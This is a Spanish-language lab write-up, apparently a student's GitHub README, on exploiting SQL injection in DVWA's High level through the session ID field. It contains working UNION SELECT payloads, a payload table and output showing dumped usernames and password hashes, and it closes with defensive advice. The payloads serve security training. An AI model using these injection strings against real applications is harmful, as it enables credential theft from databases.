



# 🛡️ DVWA - SQL Injection (High Level)

En este repositorio se explica cómo explotar una vulnerabilidad **SQL Injection** en el nivel **High** de la aplicación web de pruebas **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Extraer los **nombres de usuario y contraseñas** almacenados en la base de datos, utilizando una **inyección SQL** que se realiza a través de una **variable de sesión (`$_SESSION['id']`)** y no directamente en la URL.

---

## 🕵️ Análisis técnico

### 📂 Recursos: `high.php`

```php
if (isset($_SESSION['id'])) {
    $id = $_SESSION['id'];

    $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query);

    while ($row = mysqli_fetch_assoc($result)) {
        echo "<pre>ID: {$id}<br />First name: {$row['first_name']}<br />Surname: {$row['last_name']}</pre>";
    }
}
```

🔎 **Puntos clave:**

- La consulta SQL es vulnerable porque el valor de `$_SESSION['id']` **no está escapado ni protegido**.
- La inyección SQL es posible si conseguimos modificar el valor de esa variable de sesión.
- El payload que funciona en el nivel **Low** también funciona aquí, como se explica tanto en las Ayudas como en [Aftab Sama's writeup](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high).

---

## 🔧 Paso a paso para explotar la vulnerabilidad

### 1. Acceder a la interfaz para cambiar el ID

Hacemos click en el enlace de Change your ID:

 

O Navegamos a esta dirección:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/session-input.php
```
 

Esta página contiene un campo de texto que permite **modificar la variable de sesión `$_SESSION['id']`**.

---

### 2. Inyectar el payload SQL

En el campo de texto, introduce el siguiente valor malicioso:

```
1' UNION SELECT user, password FROM users#
```

📌 Este payload, heredado del nivel bajo, funciona también en el nivel High. Aprovecha que el valor se inyecta directamente en la consulta SQL sin escapado adicional.

Y pulsa el botón **Submit**.

 

---

### 3. Consultar los resultados

Después de enviar el formulario, serás redirigido automáticamente a:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/high.php
```

Ahí verás los resultados de la inyección SQL. Por ejemplo:

```
ID: 1' UNION SELECT user, password FROM users#
First name: admin
Surname: admin

First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

...
```

Estos valores corresponden a los usuarios y contraseñas almacenadas en la tabla `users` de DVWA.

---

## 🦪 Payloads útiles

| Objetivo                               | Payload                                                       |
| -------------------------------------- | ------------------------------------------------------------- |
| Extraer usuario y contraseña           | `1' UNION SELECT user, password FROM users#`                  |
| Ver solo un usuario (primer resultado) | `1' UNION SELECT user, password FROM users LIMIT 1#`          |
| Ver el segundo usuario                 | `1' UNION SELECT user, password FROM users LIMIT 1 OFFSET 1#` |
| Insertar valores personalizados        | `1' UNION SELECT 'root','toor'#`                              |

---

## ⚠️ Recomendaciones de seguridad

Este ejercicio está diseñado para realizarse en un entorno de pruebas controlado (DVWA). En un entorno real:

✅ Usa **consultas preparadas (prepared statements)**  
✅ Aplica **validación de entradas**  
✅ Escapa correctamente los datos enviados por el usuario  
✅ Limita los permisos de las cuentas de base de datos  
✅ Aplica un firewall de aplicaciones web (WAF)  

---

## 📚 Recursos

- 🔗 [DVWA en GitHub](https://github.com/digininja/DVWA)
- 📖 [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- ▶️ [Vídeo tutorial utilizado](https://youtu.be/5bj1pFmyyBA)
- 📘 [Writeup de Aftab Sama sobre SQLi en DVWA](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high)

---

## 👨‍💼 Autor

**Carlos Peris Navarro**  
Estudiante de Ciberseguridad


